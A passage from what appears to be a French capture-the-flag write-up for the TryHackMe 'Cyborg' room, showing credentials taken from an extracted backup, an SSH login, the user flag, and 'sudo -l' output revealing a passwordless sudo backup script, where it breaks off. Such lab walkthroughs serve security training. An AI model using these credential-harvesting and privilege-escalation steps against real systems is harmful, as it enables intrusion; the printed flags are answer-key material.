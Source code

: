 **What is the user.txt flag?**

On extrait la sauvegarde.
On dans le fichier note.txt on trouve des identifiants :  
Nom : alex     
Mot de passe : S3cretP@s3   


```bash
tim@kali:~/Bureau/tryhackme/write-up/home/field/dev/final_archive/extract/music_archive/home/alex/Documents$ ssh alex@cyborg.thm
The authenticity of host 'cyborg.thm (10.10.48.14)' can't be established.
ECDSA key fingerprint is SHA256:uB5ulnLcQitH1NC30YfXJUbdLjQLRvGhDRUgCSAD7F8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'cyborg.thm,10.10.48.14' (ECDSA) to the list of known hosts.
alex@cyborg.thm's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.15.0-128-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


27 packages can be updated.
0 updates are security updates.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

alex@ubuntu:~$ cat /home/alex/user.txt
flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}

```

On se connect avec le identifiant.  
On lit le fichier user.txt.   

La réponse est : flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}    

**What is the root.txt flag?**

```bash
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```
